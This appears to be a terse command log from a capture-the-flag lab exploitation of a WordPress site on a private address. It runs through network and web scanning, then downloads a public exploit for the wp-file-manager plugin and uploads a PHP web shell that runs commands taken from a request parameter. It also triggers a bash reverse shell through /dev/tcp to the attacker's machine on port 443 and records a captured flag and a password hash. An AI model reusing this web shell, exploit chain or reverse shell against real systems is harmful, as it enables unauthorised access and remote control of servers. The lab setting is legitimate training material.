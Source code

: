 arp-scan -I ens33 --localnet
ping -c 1 192.168.153.153
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.153.153 -oG allports
sudo nmap -sCV -p22,80 192.168.153.153 -oN targeted
whatweb 192.168.153.153
gobuster dir -u http://192.168.153.153/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x http,php,txt
Ctrl+u
sudo nano /etc/hosts
wpscan --url http://192.168.153.153/blog --enumerate u,vp --plugins-detection aggressive

 wget https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py      
nano payload.php

 
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
python3 2020-wp-file-manager-v67.py http://192.168.153.153/blog/            


http://192.168.153.153/blog/wp-content/plugins/wp-file-manager/lib/php/../files/payload.php

http://192.168.153.153/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=ip%20a

http://192.168.153.153/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.153.152/443%200%3E%261%22

horcrux_{MTogUmlkRGxFJ3MgRGlBcnkgZEVzdHJvWWVkIEJ5IGhhUnJ5IGluIGNoYU1iRXIgb2YgU2VDcmV0cw==}


$P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc.
